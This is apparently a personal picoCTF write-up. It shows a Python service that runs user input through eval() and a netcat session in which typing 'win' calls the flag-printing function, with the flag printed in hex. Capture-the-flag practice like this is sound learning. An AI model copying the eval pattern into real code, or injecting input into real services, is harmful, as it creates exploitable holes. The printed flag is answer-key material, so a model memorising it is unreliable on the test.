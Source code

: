 # URL
https://play.picoctf.org/playlists/2?m=14

# Details
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 64000
The program's source code can be downloaded here.

# Work

* The code has a win() function that prints the flag, so I know I have to reach here somehow
* Later down in the code, I see this:
``
 while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
``

* The eval function (a huge security risk btw) takes our input + the parentheses
* Knowing this, I just typed win and look at what I get
``
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 63251
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x62 0x35 0x32 0x33 0x62 0x32 0x61 0x31 0x7d 
Try entering "getRandomNumber" without the double quotes..
``
* I put the hexadecimal into an hex -> ascii converter and got the flag!
